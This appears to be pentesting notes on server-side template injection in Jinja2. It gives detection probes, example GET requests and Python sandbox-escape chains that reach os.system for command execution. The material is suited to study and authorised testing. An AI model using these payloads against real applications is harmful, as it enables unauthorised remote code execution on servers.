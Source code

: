 **Template Engine: Jinja 2 Engine**
```html
<html>
<body>
1 <h1>{{ list_title }}</h1>
<h2>{{ list_description }}</h2>
2 {% for item in item_list %}
{{ item }}
{% if not loop.last %},{% endif %}
{% endfor %}
</body>
</html>
```

**Payload Injection**
- Test by injecting payloads in input like `{{1+1}}` and `{{1+abcxx}}${1+abcxx}<%1+abcxx%>[abcxx]`.
- Some more examples:
  - `${7*7}`
  - `{{7*7}}`
  - `<%= 7*7 %>`
- Example GET request:
  ```
  GET /display_name?name={{7*7}}
  Host: example.com
  ```
- Always try to run the `os.system('ls')` command if vulnerability is confirmed. The command may vary depending on the template engine and programming language.

**Exploiting Jinja 2 Engine**
- Example GET request:
  ```
  GET /display_name?name="{{__import__('os').system('ls')}}"
  Host: example.com
  ```
- If you encounter the error `jinja2.exceptions.UndefinedError: '__import__' is undefined`, try the following Python sandbox escape techniques:

**Python Sandbox Escape Techniques**
1. `{{[].__class__.__bases__[0].__subclasses__()}}`
   - When you submit this, you will see methods like:
   ```
   [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, ...]
   ```
2. Find the `import` command:
   ```jinja2
   {% for x in [].__class__.__bases__[0].__subclasses__() %}
   {% if 'catch_warnings' in x.__name__ %}
   {{x()._module.__builtins__}}
   {% endif %}
   {% endfor %}
   ```
3. Execute `import` command:
   ```jinja2
   {% for x in [].__class__.__bases__[0].__subclasses__() %}
   {% if 'catch_warnings' in x.__name__ %}
   {{x()._module.__builtins__['__import__']('os').system('ls')}}
   {% endif %}
   {% endfor %}
   ```
- Learn more about Python sandbox escape techniques:
   - [CTF Wiki: Python Sandbox Escape](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)
   - [HackTricks: Bypassing Python Sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes/)
- You can use `tplmap` to automate this task as well.
